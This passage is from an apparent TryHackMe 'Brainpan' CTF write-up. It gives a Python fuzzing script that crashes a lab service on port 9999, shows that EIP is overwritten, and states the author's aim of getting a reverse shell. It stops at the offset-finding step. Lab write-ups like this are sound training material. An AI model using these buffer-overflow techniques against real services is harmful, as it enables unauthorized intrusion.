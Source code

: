#### Fuzzing

Looking at the output from the exe console, the application is copying the input to a buffer. So first we need need to fuzz the application to see if we can crash the application and overwrite the buffer.

I have created a very simple python script to fuzz the application. I updated my hosts file to connect to my windows VM rather than TryHackMe for now.

{% highlight python %}
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("brainpan",9999))
        s.recv(1024)
        s.send(buffer + "\r\n")
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100

    except:
       print("Fuzzing crashed at %s bytes" % str(len(buffer)))
       sys.exit()
{% endhighlight %}

The script will send 100 A's to the application and will keep increasing the sent characters by 100 on each attempt. If the application crashes the script will fail and print out the length of A's sent at the time of the crash. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $sudo python exploit.py
Fuzzing crashed at 700 bytes
```

Running the script I can see it crashed at 700 bytes. Looking in Immunity debugger I can see the status is now showing 'Paused' rather than running indicating a crash.

![crash](/assets/images/brainpan/crash.png)

EIP is showing 41414141 which is AAAA so we have successfully overwrote EIP. If I can control EIP I may be able to exploit the application to create a reverse shell.

#### Find Offset

The next step is to find the offset of the crash, I have successfully overwrote EIP but I need to determine the offset so I can accurately control the value inputted in to EIP. To find the offset I used the msf pattern create. This will create a cyclic pattern string of characters that I can put in to my script.
